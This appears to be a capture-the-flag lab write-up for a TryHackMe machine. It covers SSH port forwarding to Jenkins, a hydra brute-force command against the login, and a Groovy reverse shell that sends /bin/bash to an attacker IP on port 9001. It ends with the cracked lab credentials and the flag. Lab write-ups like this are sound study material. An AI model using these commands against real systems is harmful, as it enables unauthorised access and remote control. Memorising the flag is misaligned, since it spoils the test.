 in the home folder it says there is a jenkins service running on port 8080 
 
 ![[Pasted image 20210529165550.png]]
 
 port forwarding via ssh
 ![[Pasted image 20210529165740.png]]
 
 jenkins website
 ![[Pasted image 20210529170015.png]]
 
 and not a single cred works
 

 bruteforcing with admin
 
(change the port from 8080 for burpsuite to work `ssh -L 80:127.0.0.1:8080 aubreanna@internal.thm`)
 
 ![[Pasted image 20210529170558.png]]
 
`j_username=admin&j_password=admin&from=%2F&Submit=Sign+in`
 
 `hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`
 
 ![[Pasted image 20210529171430.png]]
 
 and we got a hit
 
`admin:spongebob`


 and we are in 
 ![[Pasted image 20210529171616.png]]
 
and from manage http://127.0.0.1/manage we can exectute a groovy script and get shell 

![[Pasted image 20210529171843.png]]

from here we get the script 
https://github.com/gquere/pwn_jenkins

```
String host="10.17.4.208";
int port=9001;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

listen and run 
![[Pasted image 20210529172203.png]]

and we got shell as jenkins

![[Pasted image 20210529172431.png]]

and then enumrating the docker container we got the creds from the /opt/note.txt

![[Pasted image 20210529172558.png]]

`root:tr0ub13guM!@#123`

ssh

![[Pasted image 20210529172718.png]]

root == THM{d0ck3r_d3str0y3r}